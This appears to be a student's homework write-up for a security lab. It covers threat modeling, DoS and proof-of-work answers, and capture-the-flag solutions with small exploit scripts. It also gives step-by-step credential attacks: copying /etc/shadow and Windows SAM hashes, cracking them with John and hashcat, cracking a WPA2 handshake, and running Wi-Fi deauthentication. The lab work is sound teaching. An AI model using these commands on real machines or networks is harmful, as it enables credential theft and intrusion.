






# HW5 - Security

B09902011 陳可邦

### 1. Threat modeling

1. Assumption: 船隻和設備均能正常運作、沒有天災等意外

   | Threat model                     | Countermeasure              |
   | -------------------------------- | --------------------------- |
   | 有人在貨物上船前就把貨櫃打開偷走 | 貨櫃全部上鎖，定期巡邏      |
   | 有人劫船，把整艘船連貨物一起開走 | 船員配備防身道具，船加裝GPS |

2. Assumption: 餐廳設備及人員均狀態良好、沒有天災等意外

   | Threat model               | Countermeasure         |
   | -------------------------- | ---------------------- |
   | 有人吃完了賴帳不付錢就走人 | 要求所有人先付款才能吃 |
   | 有人用假鈔付錢             | 在收銀台配置驗鈔筆     |

3. Assumption: 電腦及網路設備狀態良好

   | Threat model               | Countermeasure                              |
   | -------------------------- | ------------------------------------------- |
   | 有人偷瞄他人的螢幕         | 在螢幕旁加裝隔板                            |
   | 有人作弊上網找資料或代打   | 設定防火牆，讓除judge系統以外的東西都連不到 |
   | 有人試圖攻擊測驗系統的漏洞 | 更新所有軟體到最新版本                      |

4. Assumption: 門鎖、窗戶等皆足夠堅固且運作正常

   | Threat model             | Countermeasure                       |
   | ------------------------ | ------------------------------------ |
   | 有人忘記上鎖讓人跑進來   | 採用自動門鎖，在門禁時間之後自動上鎖 |
   | 有人跟著有卡的人走進系館 | 使用像旋轉門等只能容納一人的出入口   |
   | 有人爬窗戶進系館         | 窗戶全部上鎖                         |

5. Assumption: 筆電的軟硬體運作正常，攻擊者沒有厲害到可以弄出0day

   | Threat model               | Countermeasure         |
   | -------------------------- | ---------------------- |
   | 有人趁離開電腦時偷偷使用   | 設定螢幕自動上鎖       |
   | 有人拿走電腦裡的hash       | 設定硬碟加密           |
   | 有人試圖攻擊電腦系統的漏洞 | 更新所有軟體到最新版本 |

### 2. PoW & DoS

1. DoS 是指用大量要求或利用系統的弱點造成系統為了處理攻擊者的要求，而無法回應其他人的要求。

   DDoS 則是攻擊者操控大量電腦對系統DoS，用更大量的攻擊造成系統癱瘓，達到差不多的效果。

   > https://www.comparitech.com/net-admin/dos-vs-ddos-attacks-differences-prevention/

2. Proof of Work 要求每個使用者做一項需要一段時間才能完成的任務，如尋找一個hash過後會符合要求的數字，藉由這段時間來達到防止DDoS的效果。

   Proof of Space 為差不多的概念，但是要求使用者做的任務需要一段儲存空間，但是不一定需要很長的時間，來達到一台機器不能同時使用太多次服務的效果。

   > https://en.wikipedia.org/wiki/Proof_of_work
   >
   > https://en.wikipedia.org/wiki/Proof_of_space

3. Sorting service

   觀察一下Code可以發現要拿到flag的最簡單方法是讓`qsort`跑很久而使`test_slow`報錯，也可以看到這裡實作Quicksort的方法有弱點，容易被DoS。

   如果給他sort的資料形如`3 1 0 2 4`，每次被選到的pivot都會是極值，整個過程就會變O(n^2)

   寫個script生資料： (example.py)

   ```python
   def blowup():
       s = '0'
       i = 0
       for _ in range(7220):
           i += 1
           if i % 2:
               s = f'{s} {i}'
           else:
               s = f'{i} {s}'
       return s
   ```

   得到flag：

   ```
   Good for you! The flag is HW5{c4ts_ar3_a_1ot_cut3r_th4n_柴魚}
   ```

   > Source: 與同學討論: B09902004郭懷元

4. ReDoS

   觀察Code, 發現他的regex長這樣

   ```js
   ^Dear Sophia, (.*柴魚){10,15}.*\. Best wishes, ([a-zA-Z0-9]+ ?)+\.$
   ```

   其中`([a-zA-Z0-9]+ ?)+`的部分很有問題，如果我們在input裡給一串很長的`[a-zA-Z0-9]`的字串，後面加一個不符合的字元，如`aaaaaaaaaaaaaaaaaaaaaaaaaaa!`，regex就會因為greedy而導致match時間變成O(2^n)。

   因此我們就直接照著格式給他input，得到flag:

   ```
   What do you want to tell Sophia?
   format: "Dear Sophia, `blahblahblah`. Best wishes, `yourname`."
   : Dear Sophia, a柴魚a柴魚a柴魚a柴魚a柴魚a柴魚a柴魚a柴魚a柴魚a柴魚a柴魚a柴魚. Best wishes, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!.
   Good for you! The flag is HW5{柴魚柴油乾柴烈火火柴砍柴柴米油鹽醬醋茶留得青山在不怕沒柴燒}
   ```

   > https://medium.com/swlh/exploiting-redos-d610e8ba531

5. PoW 速解

   觀察Code, 發現Server只會在 0~2^24 的範圍內要你找hash，也就是一千多萬個，其實沒有很多，我們可以寫一個小程式幫我們做[月球O(1)演算法](https://www.ptt.cc/bbs/C_and_CPP/M.1550249453.A.382.html)： (blowupmd5.py)

   ```python
   import hashlib
   from tqdm import tqdm
   import json
   meow = {}
   for i in tqdm(range(2**24)):
       meow[hashlib.md5(f'{i}'.encode()).hexdigest()[0:8]] = i
   with open('data.txt','w') as f:
       json.dump(meow,f)
   ```

   出來的檔案341MB，我們可以直接在程式裡讀進來用： (example.py)

   ```python
   with open('data.txt', 'r') as f:
       print('loading json...')
       meow = json.load(f)
       print('load complete')
   
   def newPOW(s):
       line = recvUntil(s, ' : ').decode()[38:46]
       sendLine(s,str(meow[line]))
   
   ```

   拿Flag:

   ```
   Here is the certificate: 1554189085||292.39851583782666||2e1c8ca749380df211f83b44843052a97594b865e634b6aa8856f995e8d2938c
   Good for you! The flag is HW5{y0u_shou1d_w0rk_unt1l_4.am_wi7h_m3_ev3ry_d4y!}
   ```

   > Source: 自己想的

### 3. SA 知識問答

1. SUID 是可執行檔的特殊權限，讓任何人在執行的這個檔案的時候，擁有檔案所有者的權限。如`/usr/bin/sudo`就是一個例子，任何人執行的時候都可以有root權限。

   SGID 是資料夾的特殊權限，在資料夾底下創建的其他檔案都會自動指派給跟資料夾相同的使用者群組。

   這些權限的弱點在於，如果一個有SUID或在SGID資料夾底下的程式有漏洞，攻擊者便可以用你的身份在系統裡做操作，並竊取檔案、植入病毒等。

   > https://dywang.csie.cyut.edu.tw/dywang/linuxsecurity/node39.html

2. 對於大部分的linux，登入錯誤紀錄放在`/var/log/auth.log`或`/var/log/secure`，透過`grep "Failed Password"`可以過濾出ssh登入失敗的紀錄。這個檔案同時也存有登入系統、ssh認證成功或失敗、也追蹤如sudo失敗的紀錄(ubuntu)。

   > https://www.eurovps.com/blog/important-linux-log-files-you-must-be-monitoring/

3. 對於大部分的linux，sudo會寄一封信給root (除非有另外設定)，因此紀錄會放在`/var/spool/mail/root`。以root的身份執行`mail`便可以看到。

   > https://xkcd.com/838/
   >
   > https://stackoverflow.com/questions/13546933/where-are-sudo-incidents-reported

4. 創建新的使用者來管理一項特定的工作，就可以在系統內只給這些使用者最小的權限。如果全部都用root來執行，只要跑的程式中有一個大漏洞，攻擊者就可以得到root的權限，並徹底破壞整個系統。

   > https://www.howtogeek.com/124950/htg-explains-why-you-shouldnt-log-into-your-linux-system-as-root/

5. Password authentication:

   * 優點：可以選自己喜歡的密碼，並在各個地方簡單做使用
   * 缺點：密碼可能會太弱被人破解，或在其他地方使用過而被偷走

   Token-based authentication:

   * 優點：token為隨機產生，基本上不會被破解，且token方便管理，可以暫時供給他人使用、並隨時撤銷權限
   * 缺點：設定步驟較多

   > https://github.blog/2020-12-15-token-authentication-requirements-for-git-operations/

### 4. 弱密碼

#### Hank's Ubuntu

 1. 開機時在grub選擇用recovery mode開機

 2. 插入隨身碟，用`lsblk`找到它，然後`mount /dev/[???] /mnt/usb`上去

 3. 把`/etc/passwd`和`/etc/shadow`複製到隨身碟，然後`umount /mnt/usb`

 4. 使用John the ripper 的`unshadow`工具: `~/john/run/unshadow passwd shadow > unshadow`

 5. 在工作站上面用`john`配合密碼表`rockyou.txt` ([Github](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz)) 嘗試破解:

    `~/john/run/john --wordlist=rockyou.txt unshadow`

    幸好密碼在表的很前面就有了，所以一下子就得到密碼: `1qaz2wsx3edc4rfv`

    登入後桌布拿Flag: `HW5{R3al1y_Da_Y1_:P}`

    

    P.S. 如果比較喜歡hashcat, 可以用`hashcat.bin -m 1800 shadow rockyou.txt --backend-ignore-opencl`

    >  https://samsclass.info/123/proj10/p12-hashcat.htm

#### Howhow's windows

1. 抓一個ubuntu的iso檔，用VM的設定把虛擬光碟放進去，開機時選擇用光碟開機，進terminal.

2. `lsblk`, 找到最大的partition然後`mkidr /mnt/win`再`mount`上去，我們就得到了Windows的檔案系統。

3. `apt-get update; apt-get install python3`

4. 把`/mnt/win/Windows/System32/config/SAM`和`/mnt/win/Windows/System32/config/SYSTEM`拿出來

5. 裝 [impacket](https://github.com/SecureAuthCorp/impacket/tree/impacket_0_9_22), 跑 `python3 setup.py`, 然後用`python3 examples/secretsdump.py SYSTEM SAM > howhow.hash`拿到 NTLM hash: `674ba145222376d43d4f0a9e3f6f315f`

6. 用隨身碟把hash拿出來

7. 用`hashcat -m 1000 howhow.hash -a 3 -1 ?l?d a?1?1?1?1?1?1?1?1 --increment --backend-ignore-opencl`，用cuda gpu做bruteforce。

   跑一下之後得到密碼: `apple8787`

   

8. 登入後桌布拿flag:`HW5{Micro$0ft也大意啦}`



> https://www.icka.org/1610/windows-password-ntlm

### 5. Wifi Hacking

花了好多時間在找mac的解法，QAQ

#### WPA2 PSK Cracking

1. 把Apple內建的一個程式放到比較容易執行的位置：

   ```sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport```

2. 用`airport -s`掃描附近的網路，找到`Palace of Joe Tsai` 的Channel ID 為 4。

   

3. `airport en0 sniff 4`，跑個幾十秒然後Ctrl+C，抓取到的封包會放到`/tmp/`裡頭的一個.cap檔。

4. 用 https://hashcat.net/cap2hccapx/ 這個工具，把.cap檔換成hashcat有辦法處理的hash檔案。

5. 用工作站跑`hashcat -m 2500 hash.hccapx -a 3 09?d?d?d?d?d?d?d?d --backend-ignore-opencl` 炸密碼

6. 得到密碼`0918273645`

> https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2
>
> https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html

#### Traffic Decryption

1. 開啟Wireshark，開啟上一題的.cap檔

2. WPA的封包需要用密碼解密才看得到，所以需要用Wireshark的功能，

   Wireshark > Preferences > Protocols > IEEE 802.11 > Edit Decryption Keys，加入一筆wpa-pwd，key填`0918273645:Palace of Joe Tsai`

3. Statistics > Conversations > TCP > Follow Stream 拿flag: `HW5{Jo3_Tsa1-7he_M4st3r_0F_Tra1niNg}`

> https://unix.stackexchange.com/questions/48671/how-to-put-mac-os-x-wireless-adapter-in-monitor-mode

#### Wifi Deauthentication

1. 因為是Mac，所以我只找到這個工具可以用：https://github.com/0x0XDev/JamWiFi

2. 在Wireshark裡面找到傳上一題flag的MAC address:

   

3. 用工具攻擊那個address即可拿到Flag  ~~雖然你也可以直接攻擊所有MAC address~~

   

   

   `HW5{j0e_ts4I_1s_d0ub1e_gun_k4i's_b3st_fr13nD}`

> https://github.com/0x0XDev/JamWiFi

# HW5 - LDAP

這部分之後會補交，QAQ